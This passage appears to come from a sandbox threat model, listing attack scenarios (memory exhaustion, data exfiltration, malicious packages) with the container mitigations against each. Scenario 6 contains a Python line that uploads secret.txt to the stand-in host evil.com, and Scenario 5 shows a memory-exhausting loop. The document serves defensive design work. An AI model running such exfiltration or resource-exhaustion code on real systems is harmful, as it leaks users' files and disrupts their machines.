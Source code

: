 ### Scenario 5: Memory Exhaustion

**Attack**:
```python
data = []
while True:
    data.append([0] * 1000000)
```

**Mitigation**:
- ✅ **BLOCKED**: --memory=4g
- OOM killer terminates at limit
- Host unaffected

### Scenario 6: Data Exfiltration

**Attack**:
```python
import requests
requests.post('https://evil.com', files={'data': open('secret.txt')})
```

**Mitigation**:
- ⚠️ **PARTIALLY MITIGATED**:
  - Can exfiltrate workspace files (inherent tradeoff)
  - Cannot access SSH keys or credentials outside workspace
  - Network access needed for package management

**Best Practices**:
- Don't put secrets in workspace
- Review changes via git diff
- Use git to track all modifications

### Scenario 7: Malicious Package

**Attack**:
```bash
pip install evil-package
```

**Mitigation**:
- ✅ **PARTIALLY MITIGATED**:
  - Runs as non-root
  - Container is ephemeral
  - No access to host files
  - Limited by capabilities

**Blast Radius**:
- Can affect workspace
- Cannot persist to system
- Cannot access SSH keys

## Known Limitations
